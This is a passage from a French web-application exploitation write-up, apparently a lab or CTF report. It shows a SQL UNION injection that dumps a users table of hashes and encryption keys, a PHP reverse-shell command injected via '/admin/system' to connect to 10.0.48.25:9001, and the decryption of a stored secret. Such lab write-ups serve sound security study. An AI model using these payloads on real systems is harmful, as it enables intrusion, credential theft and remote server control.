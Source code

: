 
**Les enregistrements de la table users**
En continuant ainsi nous pouvont récupérer les enregistrements de la table 'users' ainsi que de toutes les autres tables. Ces informations peuvent nous servir à usurper des comptes utilisateurs et potentiellement récupérer les secrets qu'ils sauvegardent dans le site. Pour ne pas tirer en longueur, nous allons juste affiché les enregistrements de la table users avec l'injection : 
```SQL
' UNION SELECT '1','2',concat(id,avatar,bio,hash,login,key),'4',CURRENT_TIMESTAMP
from users -- -
```

![enregistrements users](<exploit/sql infos users.png>)
Nous obtenons les logins et les hash. Nous voyons les mot de passe ont été hashés avec **l'argon 2**, on pourrait tenter de faire un *brute force*. Mais continuons notre exploitation, ces infos pourront nous servir plus tard.

**Ligne de la table users**
| id   | avatar| bio                    | hash                                     | login   | key                              |
| :--- |:----: |    ---:                |                                     ---: | ---:    |           ---:                   |
| 1    |  ""   | I am a box lover       | $argon2i$v=19$m=65536,t=4,p=1$amh...     |   box   | 9aeecab6c5c351706b14a304a630f19a |
| 2    |  ""   | I Think I Like someone | $2y$10$pcYHlyhZeOohw9wbT3SfPuy...        |   bob   | 8c656ab25ac6620b11d8928ece42092c |
| 3    |  ""   | #SYNT{V Ybir Pelcgb}#  | $2y$10$qowQipPTRFTjgtnbLkM7K.ep...       |   alice | 3d6f2fb66411ec33f6f8f2b797b8e0f6 |
| 4    |  ""   | I am a box lover       | $argon2i$v=19$m=65536,t=4,p=1$VU9vO..    |   NULL  | ac272b184382659c23ee786f536095e9 |
| 5    |  ""   | coucou                 | $argon2i$v=19$m=65536,t=4,p=1$WlRHV      |   test  | a128d1ff81730709688e8c396b22e91f |


### 1.4 Obtenir un reverse shell
Dans cette partie, nous allons nous connecter dans le serveur en mode shell. Pour cela, nous avions trouvé 2 moyens de le faire dans la partie détection : [l'injection de commande](#command_injection) et [le chargement de fichier](#file_upload). 
Nous allons utiliser l'injecton de commande au niveau de la page ["/admin/system"](#command_injection)  pour obtenir un shell.
Commande : 
```bash
; php -r '$sock=fsockopen("10.0.48.25",9001);exec("sh <&3 >&3 2>&3");'
```

![rev shell obtenu](<exploit/rev shell cmd gain 1.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 33 : Reverse Shell obtenu</p>

En fouillant dans le répertoire, nous retrouvons le fichier **Secret.php** qui se situe dans le chemin suivant ``/var/www/html/includes/classes/Secret.php``. Dans ce fichier, il y a une fonction qui permet de déchiffrer un secret enregistré par un utilisateur. Le code est le suivant : 
![decrypt function](<exploit/decrypt function.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 34 : Fonction 'Decrypt' Secret.php</p>

En exploitant cette fonction, nous avons réussi à trouver un secret de l'utilisateur **box**. L'algo de chiffrement utilisé est :  ``aes-256-cbc`` et la clé de chiffrement utilisée est celle sauvegardée dans la table **'users'** dans la colonne **'key'**. 
